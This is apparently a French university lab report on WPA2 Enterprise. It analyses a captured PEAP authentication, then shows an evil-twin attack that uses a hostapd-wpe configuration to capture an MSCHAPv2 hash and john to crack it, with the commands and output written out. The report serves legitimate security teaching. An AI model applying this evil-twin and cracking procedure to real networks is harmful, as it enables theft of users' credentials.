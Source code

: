 # Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise

## Authors
* Emmanuel Schmid
* Théo Gallandat
* Fabien Franchini

## 1. Capture et analyse d’une authentification WPA Entreprise

Dans cette première partie, nous allons capturer une connexion WPA Entreprise au réseau de
l’école avec Wireshark et fournir des captures d’écran indiquant dans chaque capture les
données demandées.

### Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng. Le channel 1 est le canal dont la puissance est la plus élevée !

### Requête et réponse d’authentification système ouvert
![alt text](./images/AuthOpen.png)
Le schéma ci-dessus représente une authentification système ouverte. On retrouve :   

#### La requête
![alt text](./images/Authen1.png)
#### La réponse
![alt text](./images/Authen2.png)

### Requête et réponse d’association
![alt text](./images/AssocSchema.png)
Le schéma ci-dessus représente une association système ouverte. On retrouve :   
### La requête
![alt text](./images/Assoc1.png)
### La réponse
![alt text](./images/Assoc2.png)


### Phase d’initialisation
![alt text](./images/phaseInit.png)
Le schéma ci-dessous repésente la phase d'initialisation

#### Sélection de la méthode d’authentification
Le protocole d’authentification est PEAP comme le montre la capture suivante :
![alt text](./images/methodeAuthSelect.png)

#### Arrivez-vous à voir l’identité du client ?
> Oui, se référer au screen suivant.

![alt text](./images/Identity.png)

### Phase hello
![alt text](./images/phaseHelloSchema.png)
Le schéma ci-dessous représente la **phase Hello** entre le client et l'AP.
#### Client
![alt text](./images/ClientHello.png)
> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Suites cryptographiques proposées par le client 
* Méthodes de compression proposées par le client : null

#### Serveur
![alt text](./images/srvHello.png)

> Dans l'ordre des encadrés rouges sur le screen ci-dessus, on retrouve : 
* Version TLS
* Nonce
* Session ID
* Suites cryptographiques acceptées par l’AP
* Méthodes de compression acceptées par l'AP : null


### Phase de transmission de certificats
* Certificat serveur
![alt text](./images/PhaseCertif.png)
* Change cipher spec
![alt text](./images/ChangeCipherSpec.png)

### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)
![alt text](./images/AppData.png)

### 4 way hadshake
Le schéma ci-dessous représente le **4 way hadshake**.
![alt text](./images/4wayhandshake.png)
Le screen ci-dessous repésente le 4 way hadshake capturé.
![alt text](./images/handshakes.png)

### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? 
> * EAP-TLS
* EAP-PEAP

2. Quelle méthode d’authentification est utilisée ?
> * EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  * Le serveur envoie un certificat au client ? Oui
![alt text](./images/srvCertif.png)


  * Le client envoie un certificat au serveur ? Non
![alt text](./images/clientCertif.png)

  c. Les deux s’échangent des certificats ? Non



## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel. Ici les modifications nécessaires ont été l'interface, et il faudrait aussi modifier le nom du ssid pour qu'il colle au nom du réseau dont on veut crée un `evil twin`. Ici de manière partique nous avons pas changer le ssid.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c` :
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
  * EAP-FAST/MSCHAPv2 (Phase 0)
  * PEAP/MSCHAPv2
  * EAP-TTLS/MSCHAPv2
  * EAP-TTLS/MSCHAP
  * EAP-TTLS/CHAP
  * EAP-TTLS/PA
